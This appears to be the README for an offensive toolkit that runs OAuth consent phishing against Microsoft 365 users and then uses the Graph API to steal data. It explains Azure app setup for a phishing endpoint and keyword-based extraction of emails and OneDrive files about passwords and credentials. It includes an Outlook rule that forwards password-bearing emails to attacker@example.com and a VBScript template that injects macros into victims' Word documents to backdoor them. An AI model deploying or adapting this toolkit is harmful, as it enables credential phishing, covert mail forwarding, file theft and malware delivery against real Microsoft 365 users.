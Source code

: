 ## What is office 365-attack-toolkit

o365-attack-toolkit allows operators to perform an OAuth phishing attack and later on use the Microsoft Graph API to extract interesting information.

Some of the  implemented features are :
* Extraction of keyworded e-mails from Outlook.
* Creation of Outlook Rules.
* Extraction of files from OneDrive/Sharepoint.
* Injection of macros on Word documents.


## Architecture

![](/images/Architecture.png)


### The toolkit consists of several components
### Phishing endpoint
The phishing endpoint is responsible for serving the HTML file that performs the OAuth token phishing.
### Backend services
Afterward, the token will be used by the backend services to perform the defined attacks.
### Management interface
The management interface can be utilized to inspect the extracted information from the Microsoft Graph API.

## Features

### Outlook Keyworded Extraction
User emails can be extracted by this toolkit using keywords.
For every defined keyword in the configuration file, all the emails that match them will be downloaded and saved in the database. The operator can inspect the downloaded emails through the management interface.
### Onedrive/Sharepoint Keyworded Extraction
Microsoft Graph API can be used to access files across OneDrive, OneDrive for Business and SharePoint document libraries.
User files can be extracted by this toolkit using keywords.
For every defined keyword in the configuration file, all the documents that match them will be downloaded and saved locally. The operator can examine the documents using the management interface.

### Outlook Rules Creation
Microsoft Graph API supports the creation of Outlook rules. 
You can define different rules by putting the rule JSON files in the rules/ folder.
https://docs.microsoft.com/en-us/graph/api/mailfolder-post-messagerules?view=graph-rest-1.0&tabs=cs

Below is an example rule that when loaded, it will forward every email that contains password in the body to ```attacker@example.com```.
```json
{      
    "displayName": "Example Rule",      
    "sequence": 2,      
    "isEnabled": true,          
    "conditions": {
        "bodyContains": [
          "password"       
        ]
     },
     "actions": {
        "forwardTo": [
          {
             "emailAddress": {
                "name": "Attacker Email",
                "address": "attacker@example.com"
              }
           }
        ],
        "stopProcessingRules": false
     }    
}
```

### Word Document Macro Backdooring
Users documents hosted on OneDrive can be backdoored by injecting macros. If this feature is enabled, the last 15 documents accessed by the user will be downloaded and backdoored with the macro defined in the configuration file. After the backdoored file has been uploaded, the extension of the document will be changed to .doc in order for the macro to be supported on Word.
It should be noted that after backdooring the documents, they can not be edited online which increases the chances of our payload execution.

This functionality can only be used on Windows because the insertion of macros is done using the Word COM object.
A VBS file is built by the template below and executed so don't panic if you see ``wscript.exe`` running.

```vbscript
	Dim wdApp
	Set wdApp = CreateObject("Word.Application")
	wdApp.Documents.Open("{DOCUMENT}")
	wdApp.Documents(1).VBProject.VBComponents("ThisDocument").CodeModule.AddFromFile "{MACRO}"
	wdApp.Documents(1).SaveAs2 "{OUTPUT}", 0
	wdApp.Quit
```

## How to set up

### Compile

```
cd %GOPATH%
git clone https://github.com/alex14324/office365.git
cd office365
dep ensure
go build
```

### Configuration

An example configuration as below :
```
[server]
host = 127.0.0.1 ; The ip address for the external listener.
externalport = 30662 ; Port for the external listener
certificate = server.crt ; Certificate for the external listener
key = server.key ; Key for the external listener
internalport = 8080 ; Port for the internal listener.

; Keywords used for extracting emails and files of a user.
[keywords]
outlook = pass,vpn,creds,credentials
onedrive = password,.config,.xml,db,database,mbd 

[backdoor]
enabled = true ; Enable/Disable this feature
macro = "C:\\Test.bas" ; The location of the macro file to use for backdooring documents
```

### Deployment
Before start using this toolkit you need to create an Application on the Azure Portal.
Go to Azure Active Directory -> App Registrations -> Register an application.

![](/images/registerapp.png)

After creating the application, copy the Application ID and change it on ```static/index.html```.

The URL(external listener) that will be used for phishing should be added as a Redirect URL.
To add a redirect url, go the application and click Add a Redirect URL.

![](/images/redirecturl.png)

The Redirect URL should be the URL that will be used to host the phishing endpoint, in this case ```https://myphishingurl.com/```

![](/images/url.png)

Make sure to check both the boxes as shown below :

![](/images/implicitgrant.png)

It should be noted that you can run this tool on any Operating Systems that Go supports, but the Macro Backdooring Functionality will only work on Windows.

The look of the phishing page can be changed on ```static/index.html```.

##  Security Considerations

Apart from all the features this tool has, it also opens some attack surface on the host running the tool.
Firstly, the Macro Backdooring Functionality will open the word files, and if you are running an unpatched version 
of Office, bad things can happen. Additionally, the extraction of files can download malicious files which will be saved on your computer. 

The best approach would be isolating the  host properly and only allowing communication with the HTTPS redirector and Microsoft Graph API.


## Management Interface

The management interface allows the operator to browse the data that  has been extracted. 

#### Users view

![](/images/users.png)

#### View User Emails

![](/images/emails.png)


#### View Email

![](/images/email.png)

